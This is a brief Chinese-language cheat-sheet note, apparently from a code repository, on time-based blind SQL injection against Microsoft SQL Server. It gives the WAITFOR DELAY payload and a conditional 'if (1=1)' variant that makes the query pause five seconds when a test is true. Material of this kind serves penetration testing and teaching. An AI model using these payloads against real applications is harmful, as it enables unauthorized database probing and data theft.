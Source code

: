 # mssql数据库延时注入

+ 延时语法
```mssql
WAITFOR DELAY '0:0:5'--
```

+ if语句
```mssql
if (判断句) WAITFOR DELAY '0:0:5'--
事例：
if (1=1) waitfor delay '0:0:5'--     #如果1=1 那么延时5秒
```
